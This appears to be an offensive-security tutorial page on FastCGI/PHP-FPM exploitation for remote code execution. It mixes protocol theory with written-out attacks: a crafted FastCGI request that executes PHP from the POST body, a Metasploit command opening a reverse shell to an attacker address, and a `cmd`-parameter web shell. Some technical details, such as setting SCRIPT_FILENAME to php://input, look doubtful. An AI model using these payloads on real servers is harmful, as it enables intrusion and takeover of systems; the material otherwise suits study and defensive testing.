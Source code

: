 ```yaml
---
title: 'FastCGI Exploitation: Achieving Remote Code Execution'
description: Explore FastCGI exploitation techniques for RCE on PHP web servers via
  misconfigurations and SSRF.
keywords:
- FastCGI
- PHP-FPM
- remote code execution
- SSRF
- FastCGI exploitation
- web security
- RCE
- PHP configuration
- cybersecurity
---
```


# FastCGI Exploitation

## Context

FastCGI exploitation allows attackers to achieve remote code execution on PHP-based web servers by exploiting misconfigurations or SSRF vectors associated with FastCGI. This technique is especially potent where PHP is run under the FastCGI Process Manager (PHP-FPM). Familiarity with the FastCGI protocol, PHP directive configurations, and web server architecture is assumed. Additionally, a basic understanding of Server-Side Request Forgery (SSRF) and command execution techniques will aid comprehension.

## Theory

### FastCGI Protocol Mechanics Relevant to Exploitation

FastCGI is a binary protocol designed to interface interactive programs, like PHP, with web servers. It provides enhanced performance over traditional CGI by reusing persistent processes. This protocol allows for the direct manipulation of the PHP interpreter's environment variables via specially crafted requests, which makes it a target for exploitation. In an attack scenario, the attacker crafts FastCGI requests to set PHP directives, enabling the execution of malicious payloads on the server.

### PHP Directives and FastCGI Exploitation Vectors

PHP configuration directives, such as `auto_prepend_file` and `allow_url_include`, are pivotal during exploitation as they can be manipulated through FastCGI parameters. Vulnerabilities arise from misconfigured FastCGI listeners, for example, improperly exposed UNIX/TCP sockets, which allow attackers to transmit arbitrary FastCGI requests. By utilizing the `php://input` stream, attackers can redirect the `SCRIPT_FILENAME` to execute code directly from the POST body, bypassing typical PHP script execution processes to achieve code execution.

### Exploitation Workflow and Attack Surface

The exploitation workflow involves three critical steps: 
1. Identify an accessible FastCGI endpoint through either SSRF or an exposed socket.
2. Craft and send a malicious FastCGI request to this endpoint.
3. Execute arbitrary code on the target system via the command or script inserted.

Precondition: The attacker must be able to reach the FastCGI service, either directly or through a relay such as SSRF.

```mermaid
flowchart TD;
    A[Attacker] -->|SSRF or direct| B(FastCGI Listener);
    B -->|Malicious Params| C[PHP-FPM];
    C -->|Executes Payload| D[Remote Code Execution];
```

## Practice

### Manual FastCGI RCE via SSRF and php://input

The following steps illustrate obtaining remote code execution by leveraging SSRF to interact with FastCGI:

- Utilize a Python script to send a specially crafted FastCGI request:
  ```bash
  python3 fastcgi.py --host 127.0.0.1 --port 9000 --script-filename php://input --request-method POST --php-value 'auto_prepend_file=php://input' --body '<?php system("id"); ?>'
  ```
  This command sends a POST request where the PHP interpreter will execute code from the POST body due to the 'auto_prepend_file' directive.

- Confirm successful execution by inspecting the output:
  ```text
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  This output signifies that code execution occurred under the web server's context.

### Automated FastCGI Exploitation with Metasploit

Automating FastCGI exploitation is efficient with Metasploit:

- Execute the following Metasploit command to exploit FastCGI:
  ```bash
  msfconsole -q -x 'use exploit/multi/http/php_fastcgi_exec; set RHOSTS <target>; set RPORT 9000; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST <attacker_ip>; run'
  ```
  This setup leverages Metasploit modules to automate the process and obtain a Meterpreter shell on the target system. 

### Hybrid SSRF-to-FastCGI Exploitation

In situations where SSRF can connect to internal FastCGI sockets, the following approach is possible:

- Employ SSRF to relay a FastCGI payload:
  - Construct a FastCGI request setting `SCRIPT_FILENAME=php://input` and populate the POST body with:
    ```php
    <?php passthru($_GET["cmd"]); ?>
    ```
  This allows for dynamic command execution controlled by the `cmd` GET parameter, effectively providing a shell-like capability over HTTP.

## Tools

- **fastcgi.py**
- **Metasploit**
- **curl** 

These tools are essential for interacting with FastCGI endpoints, automating exploits, and testing code execution capabilities.